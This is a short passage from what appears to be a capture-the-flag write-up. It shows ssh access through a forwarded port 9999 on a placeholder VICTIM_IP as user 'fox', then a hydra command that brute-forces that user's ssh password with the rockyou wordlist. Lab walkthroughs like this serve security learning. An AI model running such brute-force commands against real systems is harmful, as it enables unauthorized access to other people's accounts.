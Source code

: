 Now we should be able to access `ssh` on port 9999 from
the outside

```bash
ssh fox@VICTIM_IP -p 9999
```

![ssh port forward](/images/yot-fox/ssh-port-forward.png)

We don't have a password so we'll need to brute force
again...

To cut down on the guess work it'll be the `fox` user this
time

```bash
hydra VICTIM_IP ssh -t 25 -f -P /usr/share/wordlists/rockyou.txt -l fox -s 9999
```
